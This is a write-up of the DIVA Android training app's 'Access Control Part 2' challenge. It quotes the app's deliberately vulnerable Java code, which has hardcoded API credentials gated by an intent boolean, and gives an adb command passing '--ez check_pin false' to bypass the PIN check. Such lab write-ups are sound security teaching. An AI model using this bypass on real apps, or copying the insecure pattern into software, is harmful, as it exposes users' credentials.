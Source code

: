 ## Access Control Part 2

So this time, you will be greeted by a page thats asks you whether you have registered or not.

![greetings](https://github.com/Blahblahlolhahaha/Diva-walkthrough/blob/master/Access%20Control/Part%202/Screenshot%20from%202019-10-18%2009-18-14.png)

If you chose registered, the credentials will come out

![sweet data!](https://github.com/Blahblahlolhahaha/Diva-walkthrough/blob/master/Access%20Control/Part%202/Screenshot%20from%202019-10-18%2009-18-46.png)

If you chose register now, you will be prompted to enter the pin which you have gotten from payatu.com

![register](https://github.com/Blahblahlolhahaha/Diva-walkthrough/blob/master/Access%20Control/Part%202/Screenshot%20from%202019-10-18%2009-18-34.png)

So what if we try the method mentioned in part 1?

Lets see the source code:
    
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_access_control2);
    }

    public void viewAPICredentials(View view) {
        //RadioButton rbalreadyreg = (RadioButton) findViewById(R.id.aci2rbalreadyreg);
        RadioButton rbregnow = (RadioButton) findViewById(R.id.aci2rbregnow);
        Intent i = new Intent();
        boolean chk_pin = rbregnow.isChecked();

        // Calling implicit intent i.e. with app defined action instead of activity class
        i.setAction("jakhar.aseem.diva.action.VIEW_CREDS2");
        i.putExtra(getString(R.string.chk_pin), chk_pin);
        // Check whether the intent resolves to an activity or not
        if (i.resolveActivity(getPackageManager()) != null){
            startActivity(i);
        }
        else {
            Toast.makeText(this, "Error while getting Tveeter API details", Toast.LENGTH_SHORT).show();
            Log.e("Diva-aci1", "Couldn't resolve the Intent VIEW_CREDS2 to our activity");
        }
    }


so lets try this in the terminal:
   
   
    adm shell am start -a jakhar.aseem.diva.VIEW_CREDS2


![failed](https://github.com/Blahblahlolhahaha/Diva-walkthrough/blob/master/Access%20Control/Part%202/Screenshot%20from%202019-10-18%2009-24-13.png)

Apparently it doesnt work. Lets look at the source code for VIEW_CREDS2:

#### The vulnerability

    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_apicreds2);
        TextView apicview = (TextView) findViewById(R.id.apic2TextView);
        EditText pintext  = (EditText) findViewById(R.id.aci2pinText);
        Button  vbutton   = (Button) findViewById(R.id.aci2button);
        Intent i = getIntent();
        boolean bcheck = i.getBooleanExtra(getString(R.string.chk_pin), true);

        if (bcheck == false) {
            // Connect to vendor cloud and send User PIN
            // Get API credentials and other confidential details of the user
            String apidetails = "TVEETER API Key: secrettveeterapikey\nAPI User name: diva2\nAPI Password: p@ssword2";
            // Display the details on the app
            apicview.setText(apidetails);
        }
        else {
            apicview.setText("Register yourself at http://payatu.com to get your PIN and then login with that PIN!");
            pintext.setVisibility(View.VISIBLE);
            vbutton.setVisibility(View.VISIBLE);
        }
    }
Apparently what you get is determined by a single boolean variable known as bcheck which is from chk_pin from the previous activity

If chk_pin is true, it gives you the page which prompts for the pin

Else, it shows you the credentials which is what we want!!!!

#### The exploit

So what we want is to start the activity with chk_pin being false!

so type this in the terminal:
        
     adb shell am start -a jakhar.aseem.diva.action.VIEW_CREDS2 -n jakhar.aseem.diva/.APICreds2Activity --ez check_pin false

--ez is used to pass a boolean value into the activity

![correct!](https://github.com/Blahblahlolhahaha/Diva-walkthrough/blob/master/Access%20Control/Part%202/Screenshot%20from%202019-10-18%2014-20-11.png)



#### Success!!!


